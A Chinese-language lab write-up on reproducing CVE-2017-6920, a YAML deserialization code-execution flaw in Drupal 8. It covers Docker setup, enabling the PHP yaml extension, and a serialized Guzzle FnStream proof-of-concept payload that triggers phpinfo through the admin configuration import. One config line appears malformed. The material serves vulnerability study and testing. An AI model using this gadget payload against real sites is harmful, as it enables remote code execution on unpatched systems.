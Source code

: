 （CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞
=================================================================

一、漏洞简介
------------

Drupal是Drupal社区所维护的一套用PHP语言开发的免费、开源的内容管理系统。Drupal7.56之前的7.x版本和8.3.4之前的8.x版本中存在远程代码执行漏洞。远程攻击者可利用该漏洞在受影响应用程序上下文中执行任意代码或造成拒绝服务。

二、漏洞影响
------------

Drupal Drupal 8.3.3 Drupal Drupal 8.3.2 Drupal Drupal 8.3.1 Drupal
Drupal 8.2.8 Drupal Drupal 8.2.7 Drupal Drupal 8.2.3 Drupal Drupal 8.2.2

三、复现过程
------------

### 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

    docker-compose up -d

环境启动后，访问 `http://your-ip:8080/`
将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

-   先安装 `yaml` 扩展

```{=html}
<!-- -->
```
    # 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
    cat > sources.list << EOF
    deb http://mirrors.163.com/debian/ jessie main non-free contrib
    deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
    deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
    deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
    deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
    EOF
    # 安装依赖
    apt update
    apt-get -y install gcc make autoconf libc-dev pkg-config
    apt-get -y install libyaml-dev
    # 安装yaml扩展
    pecl install yaml
    docker-php-ext-enable yaml.so
    # 启用 yaml.decode_php 否则无法复现成功
    echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
    # 退出容器
    exit
    # 重启容器，CONTAINER换成自己的容器ID
    docker restart CONTAINER

-   1.登录一个管理员账号

-   2.访问
    `http://127.0.0.1:8080/admin/config/development/configuration/single/import`

-   3.如下图所示，`Configuration type` 选择
    `Simple configuration`，`Configuration name`
    任意填写，`Paste your configuration here` 中填写PoC如下：

```{=html}
<!-- -->
```
    !php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"

![](./.resource/(CVE-2017-6920)DrupalCore8PECLYAML反序列化任意代码执行漏洞/media/rId26.png)

-   4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

![](./.resource/(CVE-2017-6920)DrupalCore8PECLYAML反序列化任意代码执行漏洞/media/rId27.png)

-   Tips：

    -   虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在
        `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0`
        则可以复现成功，故基础镜像选择`drupal:8.3.0`

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2017-6920/
